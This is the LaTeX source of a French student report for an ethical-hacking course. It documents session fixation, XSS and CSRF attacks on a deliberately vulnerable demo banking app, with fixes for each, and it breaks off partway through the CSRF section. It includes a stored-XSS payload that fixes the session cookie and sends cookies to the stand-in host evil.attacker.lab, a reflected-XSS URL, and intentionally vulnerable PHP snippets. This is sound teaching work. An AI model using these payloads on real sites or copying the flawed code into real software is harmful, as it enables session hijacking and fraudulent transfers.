% ============================================================
%  CaptusBank — Rapport P03 : Session Fixation & XSS
%  Équipe : Mohamed MOHSSINE, Ali Braiki, Youssef Benaouda, Grif Omar
% ============================================================
\documentclass[12pt,a4paper]{report}

% ---- Encodage & langue ----
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[french]{babel}

% ---- Mise en page ----
\usepackage[top=2.5cm, bottom=2.5cm, left=2.8cm, right=2.8cm]{geometry}
\usepackage{fancyhdr}
\usepackage{titlesec}
\usepackage{parskip}
\usepackage{setspace}

% ---- Couleurs & graphiques ----
\usepackage{xcolor}
\usepackage{graphicx}
\usepackage{float}
\usepackage{mdframed}

% ---- Code source ----
\usepackage{listings}
\usepackage{inconsolata}

% ---- Tableaux ----
\usepackage{booktabs}
\usepackage{tabularx}
\usepackage{multirow}
\usepackage{longtable}
\usepackage{array}
\usepackage{colortbl}

% ---- Liens & PDF ----
\usepackage[hidelinks, pdftitle={Rapport P03 - CaptusBank}, pdfauthor={MOHSSINE, Braiki, Benaouda, Omar}]{hyperref}

% ---- Divers ----
\usepackage{enumitem}
\usepackage{tcolorbox}
\tcbuselibrary{skins,breakable}
\usepackage{fontawesome5}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, arrows.meta, positioning, fit, backgrounds}
\usepackage{amsmath}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{pifont}

% ============================================================
%  COULEURS
% ============================================================
\definecolor{vuln-red}{RGB}{220,38,38}
\definecolor{secure-green}{RGB}{22,163,74}
\definecolor{primary-blue}{RGB}{14,165,233}
\definecolor{dark-bg}{RGB}{30,41,59}
\definecolor{code-bg}{RGB}{248,250,252}
\definecolor{code-border}{RGB}{226,232,240}
\definecolor{warning-yellow}{RGB}{251,191,36}
\definecolor{comment-gray}{RGB}{100,116,139}
\definecolor{captus-blue}{RGB}{14,165,233}

% ============================================================
%  CONFIGURATION LISTINGS (code)
% ============================================================
\lstset{
  basicstyle=\ttfamily\footnotesize,
  backgroundcolor=\color{code-bg},
  frame=single,
  framesep=4pt,
  rulecolor=\color{code-border},
  breaklines=true,
  breakatwhitespace=false,
  showstringspaces=false,
  tabsize=2,
  xleftmargin=6pt,
  xrightmargin=6pt,
  captionpos=b,
  commentstyle=\color{comment-gray}\itshape,
  keywordstyle=\color{primary-blue}\bfseries,
  stringstyle=\color{vuln-red},
  numberstyle=\tiny\color{comment-gray},
  numbers=left,
  numbersep=5pt,
  literate=
    {à}{{\`a}}1 {é}{{\'e}}1 {è}{{\`e}}1 {ê}{{\^e}}1
    {î}{{\^i}}1 {ô}{{\^o}}1 {ù}{{\`u}}1 {û}{{\^u}}1
    {ç}{{\c{c}}}1 {Ã}{{\~A}}1,
}

\lstdefinelanguage{PHP}{
  morekeywords={function,class,public,private,protected,return,if,else,elseif,
    foreach,while,for,new,echo,require_once,session_start,session_regenerate_id,
    header,exit,isset,empty,true,false,null,static,implements,interface},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]",
  morestring=[b]',
}

\lstdefinelanguage{JavaScript}{
  morekeywords={function,var,let,const,return,if,else,new,this,document,
    fetch,async,await,setTimeout,setInterval,true,false,null},
  sensitive=true,
  morecomment=[l]{//},
  morestring=[b]",
  morestring=[b]',
}

% ============================================================
%  BOÎTES PERSONNALISÉES
% ============================================================

% Boîte vulnérabilité (rouge)
\newtcolorbox{vulnbox}[1][]{
  enhanced, breakable,
  colback=red!5!white, colframe=vuln-red,
  fonttitle=\bfseries\small, coltitle=white, colbacktitle=vuln-red,
  title={\faExclamationTriangle\quad Vulnérabilité — #1},
  top=6pt, bottom=6pt, left=8pt, right=8pt,
  arc=4pt
}

% Boîte sécurisée (verte)
\newtcolorbox{securebox}[1][]{
  enhanced, breakable,
  colback=green!5!white, colframe=secure-green,
  fonttitle=\bfseries\small, coltitle=white, colbacktitle=secure-green,
  title={\faShieldAlt\quad Contre-mesure — #1},
  top=6pt, bottom=6pt, left=8pt, right=8pt,
  arc=4pt
}

% Boîte démo (bleue)
\newtcolorbox{demobox}[1][]{
  enhanced, breakable,
  colback=blue!5!white, colframe=primary-blue,
  fonttitle=\bfseries\small, coltitle=white, colbacktitle=primary-blue,
  title={\faPlay\quad Démonstration — #1},
  top=6pt, bottom=6pt, left=8pt, right=8pt,
  arc=4pt
}

% Boîte info neutre (grise)
\newtcolorbox{infobox}{
  enhanced, breakable,
  colback=gray!8!white, colframe=gray!50,
  top=6pt, bottom=6pt, left=8pt, right=8pt,
  arc=4pt
}

% ============================================================
%  EN-TÊTES / PIEDS DE PAGE
% ============================================================
\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{\small\textcolor{comment-gray}{CaptusBank — P03 Session Fixation \& XSS}}
\fancyhead[R]{\small\textcolor{comment-gray}{\nouppercase{\leftmark}}}
\fancyfoot[C]{\small\textcolor{comment-gray}{\thepage}}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0pt}

% ============================================================
%  TITRES DE SECTION
% ============================================================
\titleformat{\chapter}[block]
  {\Large\bfseries\color{dark-bg}}
  {\thechapter.}{10pt}{}[\vspace{2pt}\hrule]
\titlespacing*{\chapter}{0pt}{20pt}{15pt}

\titleformat{\section}
  {\large\bfseries\color{dark-bg}}
  {\thesection}{8pt}{}
\titlespacing*{\section}{0pt}{14pt}{6pt}

\titleformat{\subsection}
  {\normalsize\bfseries\color{dark-bg}}
  {\thesubsection}{6pt}{}
\titlespacing*{\subsection}{0pt}{10pt}{4pt}

% ============================================================
%  COMMANDES UTILITAIRES
% ============================================================
\newcommand{\cmark}{\textcolor{secure-green}{\ding{51}}}
\newcommand{\xmark}{\textcolor{vuln-red}{\ding{55}}}
\newcommand{\sid}[1]{\texttt{\textcolor{primary-blue}{#1}}}
\newcommand{\file}[1]{\texttt{\textcolor{dark-bg}{#1}}}
\newcommand{\http}[1]{\texttt{\small\textcolor{primary-blue}{#1}}}
\newcommand{\cwe}[1]{\textbf{CWE-#1}}
\newcommand{\owasp}[1]{\textbf{OWASP #1}}

% ============================================================
%  DOCUMENT
% ============================================================
\begin{document}

% ============================================================
%  PAGE DE GARDE
% ============================================================
\begin{titlepage}
\centering

% ---- En-tête institution ----
{\large\scshape EMINES : School Of Industrial Management}\\[0.3cm]
{\normalsize Projet P03}

\vspace{1cm}
\rule{\linewidth}{0.4pt}

\vspace{1.8cm}

% ---- Titre principal ----
{\LARGE\bfseries Rapport}\\[0.6cm]
{\Large Session Fixation, Cross-Site Scripting}\\[0.2cm]
{\Large et Cross-Site Request Forgery}\\[0.8cm]
{\large\itshape Exploitation et contre-mesures sur une application bancaire}\\[0.3cm]
{\normalsize\textcolor{comment-gray}{CaptusBank — Application de démonstration pédagogique}}

\vspace{1.2cm}
\rule{\linewidth}{0.4pt}

\vspace{2cm}

% ---- Auteurs ----
{\normalsize\bfseries Réalisé par}\\[0.6cm]
\begin{tabular}{ll}
  Mohamed & \textbf{MOHSSINE} \\[4pt]
  Ali     & \textbf{Braiki}   \\[4pt]
  Youssef & \textbf{Benaouda} \\[4pt]
  Grif    & \textbf{Omar}     \\
\end{tabular}

\vfill

% ---- Pied de page ----
\begin{tabular}{@{}p{0.45\linewidth}p{0.45\linewidth}@{}}
  \textbf{Encadrant :} & \textbf{Année universitaire :} \\
  Youssef NOUR-EL AINE     & 2025 -- 2026 \\[6pt]
  \textbf{Date de remise :} & \textbf{Référence projet :} \\
  Mai 2026             & P03 -- Session Fixation \& XSS \\
\end{tabular}

\vspace{0.8cm}
\rule{\linewidth}{0.4pt}

\end{titlepage}

% ============================================================
%  TABLE DES MATIÈRES
% ============================================================
\tableofcontents
\newpage

% ============================================================
\chapter{Introduction}
% ============================================================

\section{Contexte}

Ce rapport présente le projet \textbf{P03 — CaptusBank}, réalisé dans le cadre du cours d'Ethical Hacking. L'objectif est de concevoir, déployer et exploiter une application bancaire intentionnellement vulnérable afin de démontrer des failles de sécurité web courantes, puis de les corriger dans une version sécurisée jumelle.

Le projet adopte une approche pédagogique en double :
\begin{itemize}
  \item \textbf{Côté attaquant (Red Team)} : exploitation de vulnérabilités réelles dans un environnement isolé
  \item \textbf{Côté défenseur (Blue Team)} : mise en œuvre des contre-mesures reconnues par l'industrie
\end{itemize}

\section{Périmètre des vulnérabilités étudiées}

Le tableau suivant résume les vulnérabilités couvertes dans ce rapport :

\begin{table}[H]
\centering
\small
\begin{tabular}{@{}llll@{}}
\toprule
\textbf{\#} & \textbf{Vulnérabilité} & \textbf{Types} \\
\midrule
1 & Session Fixation &  Identification Failures \\
2 & XSS Stocké &  Injection \\
3 & XSS Réfléchi &  Injection \\
4 & CSRF &  Broken Access Control \\
5 & Mots de passe en clair & Cryptographic Failures  \\
6 & Cookies non sécurisés & Security Misconfiguration \\
7 & Information Disclosure & Security Misconfiguration  \\
\bottomrule
\end{tabular}
\caption{Périmètre des vulnérabilités du projet P03}
\end{table}

\section{Présentation du scénario}

Le scénario met en scène trois acteurs :

\begin{itemize}
  \item \textbf{Alice Martin} — cliente de la banque CaptusBank (victime), solde de 12\,450~€
  \item \textbf{Mallory} — attaquant disposant d'un compte légitime sur la même banque (solde : 5~€)
  \item \textbf{Le serveur C2 de Mallory} — hébergé sur \http{evil.attacker.lab}, collecte les sessions volées en temps réel
\end{itemize}

L'objectif final de Mallory : accéder au compte d'Alice et effectuer un virement frauduleux sans jamais connaître son mot de passe.

% ============================================================
\chapter{Architecture du projet}
% ============================================================

\section{Infrastructure Docker}

Le projet est entièrement conteneurisé avec Docker Compose. Cinq services coexistent sur le même réseau interne \texttt{bank\_net} :

\begin{table}[H]
\centering
\small
\begin{tabularx}{\linewidth}{@{}lllX@{}}
\toprule
\textbf{Conteneur} & \textbf{Hostname} & \textbf{Port} & \textbf{Rôle} \\
\midrule
\texttt{app-vulnerable} & \texttt{vuln.bank.local} & 8080 & Application bancaire vulnérable (PHP 8.2) \\
\texttt{app-secure} & \texttt{secure.bank.local} & 8080 & Version corrigée avec contre-mesures \\
\texttt{attacker-server} & \texttt{evil.attacker.lab} & 8080 & attaquant : dashboard + collecte de sessions \\
\texttt{mysql} & interne & 3307 & Base MySQL partagée (\texttt{bank\_vuln} + \texttt{bank\_secure}) \\
\texttt{nginx} & — & 8080 & Reverse proxy, routage par header \texttt{Host} \\
\bottomrule
\end{tabularx}
\caption{Services Docker du projet}
\end{table}

Le routage est assuré par Nginx qui dirige chaque requête vers le bon conteneur selon le header HTTP \texttt{Host}. Les trois hostnames sont déclarés dans le fichier \file{/etc/hosts} de la machine hôte pour pointer vers \texttt{127.0.0.1}.

\begin{figure}[H]
\centering

\includegraphics[width=0.92\linewidth]{photos/architecture-docker.png}
\caption{Architecture Docker — vue d'ensemble des conteneurs}
\end{figure}

\section{Schéma de la base de données}

La base de données MySQL contient deux schémas distincts, initialisés automatiquement au démarrage :

\begin{itemize}
  \item \textbf{\texttt{bank\_vuln}} — schéma vulnérable : mots de passe en clair, sessions persistées, commentaires non filtrés
  \item \textbf{\texttt{bank\_secure}} — schéma sécurisé : mots de passe bcrypt, sessions avec fingerprint
\end{itemize}

La table \texttt{sessions} est particulièrement importante pour les démonstrations : elle permet de \textbf{prouver visuellement} qu'un même Session ID est associé à deux utilisateurs différents simultanément.

\section{Comptes de test}

\begin{table}[H]
\centering
\begin{tabular}{@{}lllr@{}}
\toprule
\textbf{Utilisateur} & \textbf{Mot de passe} & \textbf{Rôle} & \textbf{Solde} \\
\midrule
\texttt{alice} & \texttt{Password123!} & Victime & 12\,450,00~€ \\
\texttt{bob} & \texttt{BobPass456!} & Utilisateur secondaire & 3\,200,50~€ \\
\texttt{mallory} & \texttt{EvilPass1!} & Attaquant & 5,00~€ \\
\texttt{admin\_honeypot} & \texttt{D0\_n0t\_use!} & Honeytoken & — \\
\bottomrule
\end{tabular}
\caption{Comptes de démonstration}
\end{table}

\section{Pages de l'application vulnérable}

\begin{table}[H]
\centering
\small
\begin{tabularx}{\linewidth}{@{}llX@{}}
\toprule
\textbf{Page} & \textbf{URL} & \textbf{Vulnérabilités présentes} \\
\midrule
Login & \file{/login.php} & XSS réfléchi (\texttt{?msg=}), SID affiché en clair \\
Dashboard & \file{/dashboard.php} & XSS stocké (note de virement), SID affiché \\
Virement & \file{/transfer.php} & Pas de token CSRF, accepte GET \\
Commentaires & \file{/comments.php} & XSS stocké (vecteur principal de fixation) \\
Profil & \file{/profile.php} & XSS stocké (\texttt{full\_name}) \\
\bottomrule
\end{tabularx}
\caption{Pages vulnérables et failles associées}
\end{table}

\begin{figure}[H]
\centering

\includegraphics[width=0.85\linewidth]{photos/page-accueil-vuln.png}
\caption{Page d'accueil de CaptusBank (version vulnérable)}
\end{figure}

% ============================================================
\chapter{Analyse des vulnérabilités}
% ============================================================

% -------- 3.1 SESSION FIXATION --------
\section{Session Fixation}

\subsection{Rappel théorique}

Le mécanisme de session HTTP repose sur un identifiant unique (Session ID ou SID) transmis via un cookie. Lors d'une navigation normale :

\begin{enumerate}
  \item Le client envoie une requête sans SID
  \item Le serveur crée une session et répond avec \texttt{Set-Cookie: PHPSESSID=<aléatoire>}
  \item Le client renvoie ce cookie à chaque requête suivante
  \item Après authentification, \textbf{le serveur devrait changer le SID} pour lier la session à l'utilisateur
\end{enumerate}

La \textbf{Session Fixation} exploite l'absence de cette dernière étape. Si le serveur accepte un SID imposé par le client (via URL ou cookie) \emph{et} ne le régénère pas après login, un attaquant qui connaît le SID avant authentification peut l'utiliser après.

\subsection{Cause racine dans l'application vulnérable}

Trois paramètres PHP critiques sont mal configurés dans l'application vulnérable :

\begin{lstlisting}[language=PHP, caption={Configuration PHP vulnérable — php.ini}]
session.use_strict_mode  = 0  ; Accepte tout SID fourni par le client
session.use_only_cookies = 0  ; Accepte le SID via ?PHPSESSID= dans l'URL
session.use_trans_sid    = 1  ; Propage le SID dans les liens HTML
\end{lstlisting}

Et dans \file{login.php}, la ligne cruciale est absente :

\begin{lstlisting}[language=PHP, caption={login.php vulnérable — absence de régénération de SID}]
if ($user && hash_equals($user['password'], $password)) {
    // VULN: il manque session_regenerate_id(true) ici
    $_SESSION['user_id']  = (int)$user['id'];
    $_SESSION['username'] = $user['username'];
    header('Location: /dashboard.php');
    exit;
}
\end{lstlisting}

\begin{vulnbox}[Session Fixation]
Sans \texttt{session\_regenerate\_id(true)}, le SID présent \emph{avant} le login reste valide \emph{après}. Tout attaquant connaissant ce SID hérite automatiquement de la session authentifiée.
\end{vulnbox}

\subsection{Vecteurs d'injection du SID}

L'attaquant dispose de deux vecteurs pour imposer son SID à la victime :

\begin{description}
  \item[Vecteur A — URL (phishing)] Le SID est transmis directement dans l'URL : \\
  \texttt{http://vuln.bank.local:8080/login.php?\textbf{PHPSESSID=ATTACKERfixedSID001}} \\
  La victime clique un lien piégé envoyé par email. PHP accepte ce SID grâce à \texttt{use\_only\_cookies=0}.

  \item[Vecteur B — XSS stocké] Un payload JavaScript posté dans les commentaires écrase le cookie de la victime sans qu'elle ait cliqué un seul lien suspect :
\begin{lstlisting}[language=JavaScript, caption={Payload XSS pour fixer le SID}]
document.cookie = "PHPSESSID=ATTACKERfixedSID001; path=/";
\end{lstlisting}
\end{description}

\subsection{Contre-mesure}

\begin{securebox}[Session Fixation]
\begin{lstlisting}[language=PHP, caption={login.php sécurisé — régénération du SID après authentification}]
if ($user && password_verify($password, $user['password_hash'])) {
    session_regenerate_id(true); // Nouveau SID, l'ancien est detruit
    $_SESSION['user_id'] = (int)$user['id'];
    // ...
}
\end{lstlisting}
Complété par la configuration PHP : \texttt{use\_strict\_mode=1} et \texttt{use\_only\_cookies=1}. \\
L'application sécurisée ajoute également une \textbf{rotation périodique} du SID toutes les 5 minutes et un \textbf{fingerprint} (hash IP/24 + User-Agent) pour détecter tout partage de session.
\end{securebox}

% -------- 3.2 XSS STOCKÉ --------
\section{Cross-Site Scripting Stocké}

\subsection{Principe}

Le XSS stocké (ou persistant) permet d'injecter du code JavaScript dans la base de données d'un site. Ce code s'exécute ensuite dans le navigateur de \emph{tout} visiteur de la page affectée, avec les privilèges de cet utilisateur.

\subsection{Points d'injection dans l'application}

L'absence d'échappement contextuel crée trois points d'injection :

\begin{lstlisting}[language=PHP, caption={comments.php vulnérable — absence de htmlspecialchars}]
// Contenu du commentaire injecte directement dans le HTML
<div class="body"><?= $r['content'] ?></div>
\end{lstlisting}

\begin{lstlisting}[language=PHP, caption={dashboard.php vulnérable — note de virement}]
<td><?= $tx['note'] ?></td>
\end{lstlisting}

\begin{lstlisting}[language=PHP, caption={profile.php vulnérable — nom complet}]
<h2>Profil de <?= $user['full_name'] ?></h2>
\end{lstlisting}

\subsection{Usages du XSS dans la chaîne d'attaque}

Le XSS stocké est exploité à plusieurs niveaux :

\begin{enumerate}
  \item \textbf{Fixation de session} — écraser le cookie PHPSESSID de la victime
  \item \textbf{Exfiltration de cookie} — envoyer la session à \texttt{evil.attacker.lab}
  \item \textbf{Virement CSRF via XSS} — effectuer un virement depuis le compte de la victime
  \item \textbf{Défacement de page} — modifier visuellement l'interface
\end{enumerate}

\begin{lstlisting}[language=JavaScript, caption={Payload complet : fixation + beacon + virement}]
// Payload dans comments.php
<script>
// 1. Fixer le SID
document.cookie = "PHPSESSID=ATTACKERfixedSID001; path=/";
// 2. Envoyer confirmation au C2
new Image().src = "http://evil.attacker.lab:8080/collect.php"
  + "?m=stored-xss&sid=ATTACKERfixedSID001"
  + "&c=" + encodeURIComponent(document.cookie);
// 3. Rediriger vers login avec faux message d'erreur
window.location.href = '/login.php?msg=Session+expiree.';
</script>
\end{lstlisting}

\subsection{Contre-mesure}

\begin{securebox}[XSS Stocké]
La fonction \texttt{htmlspecialchars()} convertit les caractères HTML dangereux avant affichage :
\begin{lstlisting}[language=PHP, caption={comments.php sécurisé}]
<div class="body"><?= htmlspecialchars($r['content'], ENT_QUOTES, 'UTF-8') ?></div>
\end{lstlisting}
L'application sécurisée ajoute une \textbf{Content Security Policy (CSP)} stricte qui interdit toute exécution de script externe ou inline :
\begin{lstlisting}[caption={En-tête CSP dans security.php}]
Content-Security-Policy: script-src 'self'; object-src 'none'; base-uri 'self'
\end{lstlisting}
\end{securebox}

% -------- 3.3 XSS RÉFLÉCHI --------
\section{Cross-Site Scripting Réfléchi}

\subsection{Principe}

Contrairement au XSS stocké, le XSS réfléchi n'est pas persisté en base de données. Le payload est injecté dans l'URL et "réfléchi" par le serveur dans la réponse HTML. La victime doit cliquer sur un lien malveillant pour que l'attaque fonctionne.

\subsection{Vulnérabilité dans l'application}

Dans \file{login.php}, le paramètre GET \texttt{msg} est affiché sans encodage :

\begin{lstlisting}[language=PHP, caption={login.php — XSS réfléchi via ?msg=}]
<?php if (isset($_GET['msg'])): ?>
    <!-- VULN: parametre non echappe -->
    <div class="notice"><?= $_GET['msg'] ?></div>
<?php endif; ?>
\end{lstlisting}

Un attaquant peut envoyer à la victime un lien tel que :
\begin{center}
\small\texttt{http://vuln.bank.local:8080/login.php?msg=<script>alert(document.cookie)</script>}
\end{center}

\subsection{Contre-mesure}

\begin{securebox}[XSS Réfléchi]
\begin{lstlisting}[language=PHP]
<div class="notice"><?= htmlspecialchars($_GET['msg'], ENT_QUOTES, 'UTF-8') ?></div>
\end{lstlisting}
\end{securebox}

% -------- 3.4 CSRF --------
\section{Cross-Site Request Forgery}

\subsection{Principe}

Le CSRF force le navigateur d'une victime authentifiée à envoyer des requêtes non voulues vers un site où elle est connectée. Le navigateur inclut automatiquement les cookies de session dans \emph{toutes} les requêtes, même celles initiées depuis un autre domaine.

\subsection{Condition d'exploitation : SameSite=Lax + GET}

Les navigateurs modernes appliquent \texttt{SameSite=Lax} par défaut, ce qui bloque les requêtes POST cross-origin. Cependant, \texttt{SameSite=Lax} autorise les \textbf{navigations GET de premier niveau} (cliquer un lien). Or, l'application vulnérable accepte les paramètres de virement via GET :

\begin{lstlisting}[language=PHP, caption={transfer.php — acceptation des paramètres GET}]
// VULN: accepte GET aussi bien que POST
$input  = $_SERVER['REQUEST_METHOD'] === 'POST' ? $_POST : $_GET;
$is_get = $_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['to_iban']);
if ($_SERVER['REQUEST_METHOD'] === 'POST' || $is_get) {
    // Virement execute sans verifier l'origine
}
